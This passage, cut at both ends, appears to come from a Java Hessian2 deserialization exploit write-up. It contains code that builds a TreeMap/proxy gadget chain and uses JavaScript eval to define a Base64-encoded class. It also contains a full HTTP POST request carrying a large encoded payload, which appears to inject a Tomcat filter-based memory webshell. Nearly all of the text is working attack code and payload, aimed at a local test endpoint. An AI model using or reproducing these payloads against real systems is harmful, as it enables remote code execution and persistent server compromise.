AAACAADADwAPgA6AAgBZwAXAAEBaQAAABUAAgAAAAAACbsAAlm3AWhXsQAAAAAAAA==');var a=Java.type('int').class;var m=java.lang.ClassLoader.class.getDeclaredMethod('defineClass',Java.type('byte[]').class,a,a);m.setAccessible(true);m.invoke(java.lang.Thread.currentThread().getContextClassLoader(),b,0,b.length).newInstance();}catch (e){}\")}", new Object[0], null);
        Object right = nodeCons.newInstance(proxy, new Object[0], node);
        setField(node, "right", right);
        setField(m, "root", node);
        System.out.println("[+] Payload constructed.");

        // =============================================================
        // 5. 序列化 (模拟攻击者发送)
        // =============================================================
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        // Hessian 序列化时会处理 Unsafe/Non-Serializable 对象
        out.getSerializerFactory().setAllowNonSerializable(true);

        out.writeObject(m);
        out.flush();
        byte[] payloadBytes = baos.toByteArray();
        System.out.println("[+] Serialized size: " + payloadBytes.length + " bytes");
        System.out.println(Base64.getEncoder().encodeToString(payloadBytes));

        // =============================================================
        // 6. 反序列化 (模拟受害者接收)
        // =============================================================
        System.out.println("[*] Deserializing...");
        ByteArrayInputStream bais = new ByteArrayInputStream(payloadBytes);
        Hessian2Input input = new Hessian2Input(bais);
        input.getSerializerFactory().setAllowNonSerializable(true);

//        Object deserializedProxy = input.readObject();

        System.out.println("[+] Done. Check for calculator process.");
    }

    /**
     * 使用 ReflectionFactory 绕过构造函数实例化对象
     * 模拟 Unsafe.allocateInstance 的行为
     */
    public static Object createWithoutConstructor(Class<?> clazz) throws Exception {
        ReflectionFactory rf = ReflectionFactory.getReflectionFactory();
        Constructor<?> objDef = Object.class.getDeclaredConstructor();
        Constructor<?> intConstr = rf.newConstructorForSerialization(clazz, objDef);
        return clazz.cast(intConstr.newInstance());
    }

    /**
     * 反射设置私有字段
     */
    public static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = getFieldRecursively(obj.getClass(), fieldName);
        if (field == null) {
            throw new NoSuchFieldException(fieldName);
        }
        field.setAccessible(true);
        field.set(obj, value);
    }

    private static Field getFieldRecursively(Class<?> clazz, String fieldName) {
        Class<?> c = clazz;
        while (c != null) {
            try {
                return c.getDeclaredField(fieldName);
            } catch (NoSuchFieldException e) {
                c = c.getSuperclass();
            }
        }
        return null;
    }
}
```

```http
POST /deserialize HTTP/1.1
Host: localhost:12333
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Mode: navigate
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
sec-ch-ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

{{base64d(TRFqYXZhLnV0aWwuVHJlZU1hcFM+9SIiLmdldENsYXNzKCkuZm9yTmFtZSgiamF2YXguc2NyaXB0LlNjcmlwdEVuZ2luZU1hbmFnZXIiKS5uZXdJbnN0YW5jZSgpLmdldEVuZ2luZUJ5TmFtZSgiSmF2YVNjcmlwdCIpLmV2YWwoInRyeXt2YXIgYiA9IG9yZy5hcGFjaGUudG9tY2F0LnV0aWwuY29kZWMuYmluYXJ5LkJhc2U2NC5kZWNvZGVCYXNlNjQoJ3l2NjZ2Z0FBQURJQmJRRUFVRzl5Wnk5aGNHRmphR1V2WTI5c2JHVmpkR2x2Ym5NdlkyOTViM1JsTDNObGNpOVFjbTl3WlhKMGVWZHlhWFJsY21SbFl6SXpOVE5sTUdObE1EUTFOek5pTW1ZM1ptVTFORFF6TTJRMU9EZG1Cd0FCQVFBUWFtRjJZUzlzWVc1bkwwOWlhbVZqZEFjQUF3RUFEV2RsZEZWeWJGQmhkSFJsY200QkFCUW9LVXhxWVhaaEwyeGhibWN2VTNSeWFXNW5Pd0VBQWk4cUNBQUhBUUFNWjJWMFEyeGhjM05PWVcxbEFRQjNiM0puTG1Gd1lXTm9aUzVqYjIxdGIyMXpMbUpsWVc1MWRHbHNjeTVqYjNsdmRHVXVaR1Z6WlhKcFlXeHBlbUYwYVc5dUxtbHRjR3d1VUhKdmNHVnlkSGxDWVhObFpFOWlhbVZqZEVsa1IyVnVaWEpoZEc5eU9UZGtORGcyT1RobFltRXhOREJtWW1Kak1EZzJObVV4WVRFMFpEVTJZemtJQUFvQkFBOW5aWFJDWVhObE5qUlRkSEpwYm1jQkFCTnFZWFpoTDJsdkwwbFBSWGhqWlhCMGFXOXVCd0FOQVFBUWFtRjJZUzlzWVc1bkwxTjBjbWx1WndjQUR3RVExRWcwYzBsQlFVRkJRVUZCUVVGTlZsbGxXSGhqVmxKWUt6ZHplR3N6YlZGNU0xUktNRzFoV1dKb1ltRlVaR1JKTWtSVmJtRlJjRTh3YTA1b1RWZHdjbE50WjJGUmJEaHNURTExTVhOdVdHMVVUa2hXV0VaTlVWWjRVVmhHY1d4WGMwTXlTbkJaWkVwUloySnhRbWR2WjBsRGFVeHBkbWtyU1dsdmIyazRZbloyZGxwc1RVMXJia3g2TXk4NFNsaHVkblp1ZGxBNGNERjZlbnB1TXpORWVqUXdkRE16UVd4bmNuUm5iMDE0TlUxRVFWUlhhR2huWVRGUlEyZGxhbU5oYW5GVlEzWndjMkpUWldwcFV6UnplRWxZVG1ORFpsWndTMU0wWWxaVFVHbDNjVzltYW5OVlFUUnRiMmRGWkdsaWFrTlRNbkJxTjFOdlMyRXhkbElyT1N0TVlWTXpPVEV5YlhoaVUydHhjMlZVYWxKbU1URlVXRlZPZWxwdmRtVnlZWFYwY2lzemREVlJZbFZPT1haaVlWZFlNekJpTm10UFRrTnZWRUV2VUROeGEwSnhTWEZNUjBKUlIzUkZWR0ZWTmpSdGNXWnNiRkpuUm5wb1VFeG9NRXRWVHpsUlVrNU5SR3cwV1dwMWJIZHdSVzVDZFVOelprTXJjMVZEWkc0dk5VaG5Sa2hoTjNoUVJUVnFWRVZaTlhCdVpXeHZjalZpWTNKbVdrZFBSbEJoUlZFcmNHdFVNSEZuWmxCaWJXNVViMmNyUjFWM1JXcElMemh1YzJwU05HOWpURzVvZDBkNVFuaG1OazloVWpKM1ZXUnZiRVJuYzNOdVIwWmtRM0JyY21oWWFFcE5NRWhUY0ZObVJITlpSMWRrUkdocFpVaEhLMGQzZFd0SGEyVkRiazVKWmxWNWEzQmFlRVk0ZUdKQ2FFMWtNbkZLYUVwaGNrVXJaekpzT1VsWFJqUjNXbGR0YUdsRFZsbExhRlYwTkRSWll6QkZXVGhYUjBkTFVFWXZRWEJqWkU1WmJUWnVkakZCUldWVEwwRm9Xa296UmxodGFtWlNjMFZXY2poek0xZFNZMEUzSzJKVGMzSnNlVVpDV0ZOWk9XUjZiMnA1T1RkVFZWUXZXR0ZTWjBaaWNVcGxVRzVvWVVKcmFqWjBialpHYVV4T1FqZHdSemwyVEN0VWQxbERNMWRUVVN0MmNEbDRSRUZuY25BNWNGWk1ablU0UlRaaVdrUkpVekJvU1RCUVFsSlRVVXhWV0RKSVIySmhhRFZGYUVOcWQyUmhkelJzUWl0dmFHSk5TMUZ0TmpkTVRGVTFhVFZNU1doRlVsQnRNMVF3UjNSd1YwdExSVUZZVGtGeVR6WmtSRll3U1V0bmJYSkhhVEpPTWk5eVkyOUdXbGhFUzJjMlpUSjRiRXMzUjFGd2QzVnVPVWRNVlRWR05XTkRhM1ZqTmsxR1lsRk1URXA0UjJ0RmJHOXZNRXRYUm10d2NTdFlVblp3TkhCbFExWjNhazF1VTNCWlVWRmpNMjExY0dKU2JsTk9XbXBxT0RsS1NVaHVaR3BvVW1oQk4xUlJPVkJCTW1WUWFrOUdaR0p0ZUVoR05XeHJVbXQyVTJSd1RYbHdXVmhUZVdKQkswVnhRbkZuTDFGTE4wcEZiemt6U1dvcmRVdFlhRzFPY1doQlJYSjBNWEp4Tm5OWkszVmtaMnB6U0ZGTFpURkNUSEJrVVVKaVYzUTBVVVYyY0RsTVQyUXhka0ZhTTB4eVFtaFdZMHBzU2pKR1YyOUZjWE5JWW0xalNuaENhRE5TYjNsSk1XVk5Ta2RqUlZNd01tOUJPR0ZvWVhKa1p6TTBUVk5LWm5jeU5XeFBPVXR0TmxwcldWWnZORGhITjNOalFubFNWM2hEYkRobmNYVnhSR2RhWW5kUlNIUk5NWGRpYXpkelpra3hiV1p2T0VOQmFHNWtkVXhuT1VsSU4xaFRRelJqZFZWSE0waHZUV2RRWVZvd2FURkpWV3Q0ZWtkRVVqUXhZM2N4TlU5MGNrZEJaV3BOWjFWRVNVeFdlSFJRVEdsbWNUWmlZa2RSVlZaRldGUkZhMnhUZUVwU2JYaFVTbmxUV0VaTVNWWmpaSEJ3YVVKUFdrNXJOR041UldWeFdtbGlNRTFzWVVsb1RscE1WM0pLYVhGcldsY3pjSE5XWjJSbFJYUk1UMmhVYlVKV1kxSTVXRGs0VjFOdVIybFlWSEZ1VGxWcGJYZGhkbmN3TTNWSVJUa3phVGRuV25CQ1lYbEdNVFJLT0VnelJrcEJjbVZNWkVGTlpXMURiV28wV1RWNFduVnRWVnBNU1ZaMUt6TnhWRmRJTmtWbVFYRlpSVUZ5WjFJM05WVkJNM05sTURkcGJEQnNORXd6UTNsNVlXbFdNMEpDSzI1UVkwZDNiMlp2UVcxT0wyOU1LMkZqVWxkV05EUTFZMGhPSzB4QllrZzRTa2hLYlZkM2RXRnlaMjh5V1VkWGVWaFNOalV2VDJwNEwwUjRPVEEwWjJzNFNYcE9XVTFLS3pZeVlYSnpURzR5VTNOd1RrdDRiVzFuTkVaaGNIQmhaVGRoYkc4d2FDdDJiRmRvYkhSTlJ6VTJiMVJhVFZCbmFIa3JXUzlwVFRsT1NtNWhZVFJ3TTI5WVVHTTRkSGxTV2tzMFdFUk1lbHBTWTJjd1QxQjJiVTUzWldSS2JuWllaSEpDZEUxNlEyMVdXbFJEVlhKVGNHazJZbFZzYzBneFdFUk5UMGhzV0ZSUFFYcGpaWFJvTkM5NlVFc3Zaa2hLTVU1R1NYUnhRVWR0YTA5b1ZtZE1PSEZvVDNOTFRETTRORGx0TlRJdlpFeHVUMUIzTUZCaGFtOVVjMGQyU2taNUwzaFNhemhyWkdGWFlubGpjRTF1U0VFdlNUSjBjV05VUzI5cWJrVXJhMlJVY0dWVk5rMTVSVEZPVlZORE5tbHRWMHhVYjBzMGJrRnRNVGhrU210VlRYWldXV014YWxSYWNXTnRLMVZ3WnpKa2JEbDVWWGhOVkdaYVprWjBiazFFYlZwMWFEWlJOMWRYVEZBMGJYWnBWREphUW5KS2Exb3ZlRkV3Y20xUlQzaDBVVzlMUjFSTE5GWnNlVTVvYzFZelRTdDZORFozYlV0bWFVZG5SemxIVjNoUk9IbEtUREJ6YTNoUk9FTXpNazlUT0ZCMVNVcDJZek12VDNaeVRVdDJiVTlDYm5wR1UwWkllbGhWYm01MVFVWlVkMDlRVG5WVlNrNDVjSEY1TUVodWVtWmlURU5sVFVOMGFtMDNTR2wzVVM5blREaElSR1ZKY2pWaVVreDJhMk5ZWTJjMlpFNDJhRGw0YnpCTWVHMUZOMlpOU0ZoTVNtcFhObWN5Y1hsVEwzRkRPVmRDYWl0VU5GQm1iM2xtZVVKUWIzQXlZVW8zYzNGSE9VVndMeXRpYlVNeWIwOW1OSGhqVTNocE9UVmxjRVl6Y0RWdmExcEdNMmtyTjFkS04zcGxOVmt5TW5Kc2FqTlhjR3ByTkZwQ2RuaFBMM2hsZEhCU0x6aEhRVVEyZFZodlZIZDZVV2hFYjFOWll5OTBkM0E1VGtSak1EWlBXSEpVT0haQksxWTJLMkZ4TWpFdmQxWTVURGhEYWl0NGRIcE1WbXh0ZW1veVpFVkdaR0poV0VsMkwyUXZlRVJzYzFJdlUybG9aVVEyY0ZKSk1HWXZTbTgzVlVwQ2VISndjMFY0ZW1GdVFVcDFSUzlsUld0RFIyRmxha1V4YkZCd1ZuaERVMFZsVG5VdlIxbGpVMlpLUXpWTk1Fc3hPVlZ0ZDJkT2QyUjJXRzl1ZUhSMWQyVlVPRmRJV21sd2NqbHVSa1JqZDJsc1kzTnZXV1pVUzNWU2JFZDRSM0JyUjNsNmVWQmpiMjlUYm1sbVExbE5ZbGRZYWxwVU1IaHpTM05PZUdwSlR6SnRTSFJpUkZKSk1tRk1UMU5XTkZKTmQyeG1VM0prYlRkSmRVWlJkamczWkZBeVQzRktWV1ZDYkZJMGNuaHpkSG8xV201cFNWZHpSVUZPZVM5RlZXaENVRTV4Vm1kclprYzJlRlZEZVZkb09UUnhiekptUzNCYVdraE1TbFZPTWtkT2FXMVJaWFozVjNVMVN6SkpSbVJqY2l0TGFXaFhOWEJ4Unk4dlZqQnJjVFk0V0ZaNFdXZHZaa1Z4YjB4emREUnFlamx0VWs1dWNFaDBUeTlKVjNsdFZWWnFjV2xJUkRoMWJWZGlUVFpPZEd3dk9GbzFiSEIzYzB4VU1qQjZVbHBKZFVWWFExRnRVM2QwTm1ZMUswOWlVRmRVVFRSamVGaHlXbXBvYjJaTWEwWTFlVFpsWVdKT1dFZGxTM2N2VUVkQlkzRndOeXQyUW01WE5EZFFVa2MwUTBwTlJEZERTM0pKY0VaTVNIVXJLemRYTkdKWlJIYzFTSFJ2V0ZSaFNsUmhlR3QzYkhCcVpYWlhjVFpGVVRjNWFuSk9MMVJXT1hKelJYRmFlbmxIUlRkdlRISkhSbGwwY0RKNGEwbzNkRVpoV0dGTlNEVlVRalJJZFVrMGFVWk5kR0pKZDBOWWRsQTRZVGQ0V0VkWE9HaHBXamQ1Wms1ME5HeElVRWMyZW0xamVIWTFjR2cxZDJwM1ZtOTRhVlJ2VmxoT1RpdEdTaTlzY1haUmRsQXpUVVp3UnpsNE9IbG9kMFo0V2xaVFdWRnNTRWh3VDBZM01XMUhXVVkzWTB4WVJWSjNjRWN3ZEZKWFZtOTZhSFp6Y25wVVYwNUJPV2x2Vlc1VlNtSkNPR2hPV1hsWFkwZHhNQ3RvTkdsVGNVcHVWRTVLYVVSblVXdHdabWhSUWxkSEwyOVhiVVJKZEdaWVNUQnFNV3BaYUUxblExbHRibVZpUjJ0MWNuRnBNRlk1TkRkcGNuSnFUMXBHVDBFeU5UVnVjV3BwYmt0b2FVdHhhekZTVEVaQlYzRkxaVWxKWlVRM09ISlRZbUZtVVROc2JUazFSMWx2YW0xT2QwWktNMGM1YlRSRUswOVhiREl3WVhoUE5FNVlWbXhrYldOUFdIaFVia2hqVlUxRlRGQkNjVWt6TWpCdlMzVkplbEZHUnpGWFRXMU1kSGd2Y2tOSFJ6bEJZVXRQWVRBM1QwNXhTMG94VDFkRmRFSkhZa1JNYzNKak9FRnhZVlpIZEVsaVZWTkdLMDFUTUhKU2VWUkxjSGg2U1VaRVoxVXpRa1p4U0hkcGFXZG1OREY2UzI0clQyZFNXWGhxU1dWNlYzQkxVbkZOUlV4RlluaHNTbVYzZVU1MFlVdHFPVXB3VkRCSlNsWkdZbFJNZW10ak5HY3JhSEI0VEhOa1ZsSnJhMUkxUjJWUGVtVkVVWGh0T0hWdlRYTjNWWEJ3Y1ZFd1ZqbEllbGN3YlZoalppOUVURkp0ZEdOMFIxRXJWVlpaVVdONlZYUnhRMGg1UldsT01qZEdlR0o1WkcxeWNrd3pZMkpCVTJwcVVsSllZM2xSVFRZM2VYZHFXazlPYVVsUU9FNVVSVlJNVDNOU1ExRnNZWFJDZFZKRWFIZHBOa3hsWlhkcWRVTldZVmgyUlcxbWQyNW5lSFZ4ZFV3M1FYaHVZekJzYldSM1pFaFRWSHB1ZFhkbVdHUTVkRWwwV0ZaNWNUVnpaVkppYm5OR2VEZGxZMUZhUWpKT1NHRlhablJ3WjNvclFucFVVVFptVVRkTVkyeHpMMmxqZUZSM1JrUlZOV0ZNZVU1UU5YVjRhR05EWVdOU1FqWjZaMjV5ZFVoSFowVlVZbVZzVmpJMFJFZFdiMGs1TVU5VmNtRlVZMnAwYms5dGFGSnJSSGMzZVU1WFNrbFdlSFZQUzJGT2VtbDFhbGt4TmtneGVITjFZWE5CWWpoRldrdERWRWxHTlVwNVJHNU9XRmRZUkU1cU9VVXhWMjlDZWtOdEsyeEZObU5CYUZoS2RIcFpUR3ROYW5relIyeHRZMlJQVFRaWll6RnFaakJ3T1hrM1oxZFRaakJIUjBST0syTjNaVE0wYjNWc1p6SXlNVEJNTWtkS1NscFdiamhJUTFSdksyOU5TRzFyY1RocWEzRTNjMU5VV1M5cGFFUm1abW95WW5kMlJIQTNTalJIWXpNMGVXMW1XWGQ1TDBWdGFIbFdkbWRqVkZCQmVDOU9ZVWRFVURkWmNFWlVORVpJYzBkNmVsbHdVRzFtY0dNeVRqUXpiMWxJYzBaTFQxUTRVRmQ2VjBFM2JYTkZURzh2YVZoVU9HNW5lRlJJVjJOTllteEVWRFpJVmpsb09IbHdhWGN5TTBWaGFqTlhVRU5yWlZSTE9HUXZRblJtVEZoVGN5dG9hbXhPTjNSUVF6SmxNWHBxTkhKcEt6TjZSbEJzWkVkNlRuSk1kREpMT0drNFlrVlFTVVZVY1V4SmVtZE5XRGhxUTJwNlJsZG1SV3QxZUVOb1UxSm1lbkF4THpsd1VUUlllVGR0TmtOWU5VSmFkelZvY0V4eGVYRnZlSE5XY1VOdGRGaHJla2czWTFGYVVUTTBhV2gxTldOb09HNDBVVGg2Wldac1oyMUZMMFoyVHpWb09FYzJSaTlLWms5UlNITTBNVzlRVGk5MFMySjJkRll2VEcxaFVWZ3dUa2Q1UjFaRmRtOXZXVFJDVTA1TGNuQndPSGhDYWtaSVEyd3hiRXhJTUdOVlZIbEhSelY0UVZoa2FWTkdSWGxyZUVjNFVGVnNRbHBsUkVscmVXcENhRUprUXpGeWVHeEljWFp3VFVKVk1IZHdZblI0UmpjM2MzQlBOR3hTYmtkS1dUTlpSbVF4Ylc5RVNIRk1PSFUwYlhScVl6UTVlbE5DVTB0TmRFWnFhekpqTkRnMWJrdDRRa2hZT0VrNWMyZEtlR1JETDNWck0yNU1NRkpyYVhNNFRYQkdkVUZ5SzBOdmFubERVRzAwYlhZMFQzVlBiVEZoYWk5eWJrZGhOV3BNUzNwblRVdDJjVzVuU1ZGVlVFc3phRVYzWVU5TlVXMURZMFpoYURSd2JWZEdMMUp2UkRsSWMzWnZhMVJDYTFoRk5ua3hiRWw1YWtKV1YyaHFSbmhWV1UxUE9XMXdLMFZWUm1OaVRGaE9ZVTFaZWpGMGJEUnhRbGd4UW5Cd04yaFljbkpQZDA5NWRYbFhZVmN2YldRMlYxb3pNWFkwWlhwNGIyeEtWRTloY1N0dmN6azRhbWNyZDIxM1ptTlNSV3huYkhkcGRuRTRObFpyWVRCVEswUkxUbWRXSzFWV2VEaFlVM0ZoZUdaRGNrODFiV2gwVVhjeGVYVlplbUV6VFRWUWJERnNNMDFrVVZkeVVtRlhValJZV0ZsaVNYcHpXRkJsVEV0cFVDOWhPVUZ4Y1hKck5YTnRkMlY2UWpCUVFqQldUa3gxZERWMmExWnNZWFZsYmpsQ1dHbEpjM05hUnpSM2NYZGlNbUpQUjFCT1FTOUhOblpCVGxJMVFWRk1NRk5CWVVvcmNVUTBTR3RvYlc1TWRGRnhWa0pQTkRKM1J5OUpZV2MyZDNkc09XbFpXVGw0YlhGSFIwWTRiM0pPU2pGSWJVWmFaV040VFhCNlpGRlJhVEV6TVRSelNsSjRjM2Q2TkV4M05TdFFaUzl1UjFGQlFRZ0FFUUVBQmp4cGJtbDBQZ0VBRlNoTWFtRjJZUzlzWVc1bkwxTjBjbWx1WnpzcFZnd0FFd0FVQ2dBUUFCVUJBQU1vS1ZZQkFCTnFZWFpoTDJ4aGJtY3ZSWGhqWlhCMGFXOXVCd0FZREFBVEFCY0tBQVFBR2dFQUNtZGxkRU52Ym5SbGVIUUJBQklvS1V4cVlYWmhMM1YwYVd3dlRHbHpkRHNNQUJ3QUhRb0FBZ0FlQVFBT2FtRjJZUzkxZEdsc0wweHBjM1FIQUNBQkFBaHBkR1Z5WVhSdmNnRUFGaWdwVEdwaGRtRXZkWFJwYkM5SmRHVnlZWFJ2Y2pzTUFDSUFJd3NBSVFBa0FRQVNhbUYyWVM5MWRHbHNMMGwwWlhKaGRHOXlCd0FtQVFBSGFHRnpUbVY0ZEFFQUF5Z3BXZ3dBS0FBcEN3QW5BQ29CQUFSdVpYaDBBUUFVS0NsTWFtRjJZUzlzWVc1bkwwOWlhbVZqZERzTUFDd0FMUXNBSndBdUFRQUpaMlYwUm1sc2RHVnlBUUFtS0V4cVlYWmhMMnhoYm1jdlQySnFaV04wT3lsTWFtRjJZUzlzWVc1bkwwOWlhbVZqZERzTUFEQUFNUW9BQWdBeUFRQUpZV1JrUm1sc2RHVnlBUUFuS0V4cVlYWmhMMnhoYm1jdlQySnFaV04wTzB4cVlYWmhMMnhoYm1jdlQySnFaV04wT3lsV0RBQTBBRFVLQUFJQU5nRUFKaWdwVEdwaGRtRXZkWFJwYkM5TWFYTjBQRXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPejQ3QVFBZ2FtRjJZUzlzWVc1bkwwbHNiR1ZuWVd4QlkyTmxjM05GZUdObGNIUnBiMjRIQURrQkFCOXFZWFpoTDJ4aGJtY3ZUbTlUZFdOb1RXVjBhRzlrUlhoalpYQjBhVzl1QndBN0FRQXJhbUYyWVM5c1lXNW5MM0psWm14bFkzUXZTVzUyYjJOaGRHbHZibFJoY21kbGRFVjRZMlZ3ZEdsdmJnY0FQUUVBRTJwaGRtRXZkWFJwYkM5QmNuSmhlVXhwYzNRSEFEOEtBRUFBR2dFQUVHcGhkbUV2YkdGdVp5OVVhSEpsWVdRSEFFSUJBQXBuWlhSVWFISmxZV1J6Q0FCRUFRQU1hVzUyYjJ0bFRXVjBhRzlrQVFBNEtFeHFZWFpoTDJ4aGJtY3ZUMkpxWldOME8weHFZWFpoTDJ4aGJtY3ZVM1J5YVc1bk95bE1hbUYyWVM5c1lXNW5MMDlpYW1WamREc01BRVlBUndvQUFnQklBUUFUVzB4cVlYWmhMMnhoYm1jdlZHaHlaV0ZrT3djQVNnRUFCMmRsZEU1aGJXVU1BRXdBQmdvQVF3Qk5BUUFjUTI5dWRHRnBibVZ5UW1GamEyZHliM1Z1WkZCeWIyTmxjM052Y2dnQVR3RUFDR052Ym5SaGFXNXpBUUFiS0V4cVlYWmhMMnhoYm1jdlEyaGhjbE5sY1hWbGJtTmxPeWxhREFCUkFGSUtBQkFBVXdFQUJuUmhjbWRsZEFnQVZRRUFCV2RsZEVaV0RBQlhBRWNLQUFJQVdBRUFCblJvYVhNa01BZ0FXZ0VBQ0dOb2FXeGtjbVZ1Q0FCY0FRQVJhbUYyWVM5MWRHbHNMMGhoYzJoTllYQUhBRjRCQUFaclpYbFRaWFFCQUJFb0tVeHFZWFpoTDNWMGFXd3ZVMlYwT3d3QVlBQmhDZ0JmQUdJQkFBMXFZWFpoTDNWMGFXd3ZVMlYwQndCa0N3QmxBQ1FCQUFOblpYUU1BR2NBTVFvQVh3Qm9BUUFJWjJWMFEyeGhjM01CQUJNb0tVeHFZWFpoTDJ4aGJtY3ZRMnhoYzNNN0RBQnFBR3NLQUFRQWJBRUFEMnBoZG1FdmJHRnVaeTlEYkdGemN3Y0FiZ29BYndCTkFRQVBVM1JoYm1SaGNtUkRiMjUwWlhoMENBQnhBUUFEWVdSa0FRQVZLRXhxWVhaaEwyeGhibWN2VDJKcVpXTjBPeWxhREFCekFIUUxBQ0VBZFFFQUZWUnZiV05oZEVWdFltVmtaR1ZrUTI5dWRHVjRkQWdBZHdFQUZXZGxkRU52Ym5SbGVIUkRiR0Z6YzB4dllXUmxjZ0VBR1NncFRHcGhkbUV2YkdGdVp5OURiR0Z6YzB4dllXUmxjanNNQUhrQWVnb0FRd0I3QVFBSWRHOVRkSEpwYm1jTUFIMEFCZ29BYndCK0FRQVpVR0Z5WVd4c1pXeFhaV0poY0hCRGJHRnpjMHh2WVdSbGNnZ0FnQUVBSDFSdmJXTmhkRVZ0WW1Wa1pHVmtWMlZpWVhCd1EyeGhjM05NYjJGa1pYSUlBSUlCQUFseVpYTnZkWEpqWlhNSUFJUUJBQWRqYjI1MFpYaDBDQUNHQVFBYWFtRjJZUzlzWVc1bkwxSjFiblJwYldWRmVHTmxjSFJwYjI0SEFJZ0JBQmdvVEdwaGRtRXZiR0Z1Wnk5VWFISnZkMkZpYkdVN0tWWU1BQk1BaWdvQWlRQ0xBUUFUYW1GMllTOXNZVzVuTDFSb2NtOTNZV0pzWlFjQWpRRUFEV04xY25KbGJuUlVhSEpsWVdRQkFCUW9LVXhxWVhaaEwyeGhibWN2VkdoeVpXRmtPd3dBandDUUNnQkRBSkVCQUE1blpYUkRiR0Z6YzB4dllXUmxjZ3dBa3dCNkNnQnZBSlFNQUFrQUJnb0FBZ0NXQVFBVmFtRjJZUzlzWVc1bkwwTnNZWE56VEc5aFpHVnlCd0NZQVFBSmJHOWhaRU5zWVhOekFRQWxLRXhxWVhaaEwyeGhibWN2VTNSeWFXNW5PeWxNYW1GMllTOXNZVzVuTDBOc1lYTnpPd3dBbWdDYkNnQ1pBSndNQUF3QUJnb0FBZ0NlQVFBTVpHVmpiMlJsUW1GelpUWTBBUUFXS0V4cVlYWmhMMnhoYm1jdlUzUnlhVzVuT3lsYlFnd0FvQUNoQ2dBQ0FLSUJBQTVuZW1sd1JHVmpiMjF3Y21WemN3RUFCaWhiUWlsYlFnd0FwQUNsQ2dBQ0FLWUJBQXRrWldacGJtVkRiR0Z6Y3dnQXFBRUFBbHRDQndDcUFRQVJhbUYyWVM5c1lXNW5MMGx1ZEdWblpYSUhBS3dCQUFSVVdWQkZBUUFSVEdwaGRtRXZiR0Z1Wnk5RGJHRnpjenNNQUs0QXJ3a0FyUUN3QVFBUloyVjBSR1ZqYkdGeVpXUk5aWFJvYjJRQkFFQW9UR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdXMHhxWVhaaEwyeGhibWN2UTJ4aGMzTTdLVXhxWVhaaEwyeGhibWN2Y21WbWJHVmpkQzlOWlhSb2IyUTdEQUN5QUxNS0FHOEF0QUVBR0dwaGRtRXZiR0Z1Wnk5eVpXWnNaV04wTDAxbGRHaHZaQWNBdGdFQURYTmxkRUZqWTJWemMybGliR1VCQUFRb1dpbFdEQUM0QUxrS0FMY0F1Z0VBQjNaaGJIVmxUMllCQUJZb1NTbE1hbUYyWVM5c1lXNW5MMGx1ZEdWblpYSTdEQUM4QUwwS0FLMEF2Z0VBQm1sdWRtOXJaUUVBT1NoTWFtRjJZUzlzWVc1bkwwOWlhbVZqZER0YlRHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN0tVeHFZWFpoTDJ4aGJtY3ZUMkpxWldOME93d0F3QURCQ2dDM0FNSUJBQXR1WlhkSmJuTjBZVzVqWlF3QXhBQXRDZ0J2QU1VQkFBMW5aWFJHYVd4MFpYSk9ZVzFsQVFBbUtFeHFZWFpoTDJ4aGJtY3ZVM1J5YVc1bk95bE1hbUYyWVM5c1lXNW5MMU4wY21sdVp6c0JBQUV1Q0FESkFRQUxiR0Z6ZEVsdVpHVjRUMllCQUJVb1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN0tVa01BTXNBekFvQUVBRE5BUUFKYzNWaWMzUnlhVzVuQVFBVktFa3BUR3BoZG1FdmJHRnVaeTlUZEhKcGJtYzdEQURQQU5BS0FCQUEwUUVBSUdwaGRtRXZiR0Z1Wnk5RGJHRnpjMDV2ZEVadmRXNWtSWGhqWlhCMGFXOXVCd0RUQVFBZ2FtRjJZUzlzWVc1bkwwbHVjM1JoYm5ScFlYUnBiMjVGZUdObGNIUnBiMjRIQU5VQkFCRm5aWFJEWVhSaGJHbHVZVXh2WVdSbGNnd0Exd0I2Q2dBQ0FOZ01BTWNBeUFvQUFnRGFBUUFOWm1sdVpFWnBiSFJsY2tSbFpnZ0EzQUVBWFNoTWFtRjJZUzlzWVc1bkwwOWlhbVZqZER0TWFtRjJZUzlzWVc1bkwxTjBjbWx1Wnp0YlRHcGhkbUV2YkdGdVp5OURiR0Z6Y3p0YlRHcGhkbUV2YkdGdVp5OVBZbXBsWTNRN0tVeHFZWFpoTDJ4aGJtY3ZUMkpxWldOME93d0FSZ0RlQ2dBQ0FOOEJBQzl2Y21jdVlYQmhZMmhsTG5SdmJXTmhkQzUxZEdsc0xtUmxjMk55YVhCMGIzSXVkMlZpTGtacGJIUmxja1JsWmdnQTRRRUFCMlp2Y2s1aGJXVU1BT01BbXdvQWJ3RGtBUUF2YjNKbkxtRndZV05vWlM1MGIyMWpZWFF1ZFhScGJDNWtaWE5qY21sd2RHOXlMbmRsWWk1R2FXeDBaWEpOWVhBSUFPWUJBQ1J2Y21jdVlYQmhZMmhsTG1OaGRHRnNhVzVoTG1SbGNHeHZlUzVHYVd4MFpYSkVaV1lJQU9nQkFDUnZjbWN1WVhCaFkyaGxMbU5oZEdGc2FXNWhMbVJsY0d4dmVTNUdhV3gwWlhKTllYQUlBT29CQUQwb1RHcGhkbUV2YkdGdVp5OVRkSEpwYm1jN1dreHFZWFpoTDJ4aGJtY3ZRMnhoYzNOTWIyRmtaWEk3S1V4cVlYWmhMMnhoYm1jdlEyeGhjM003REFEakFPd0tBRzhBN1FFQURYTmxkRVpwYkhSbGNrNWhiV1VJQU84QkFBNXpaWFJHYVd4MFpYSkRiR0Z6Y3dnQThRRUFER0ZrWkVacGJIUmxja1JsWmdnQTh3RUFEWE5sZEVScGMzQmhkR05vWlhJSUF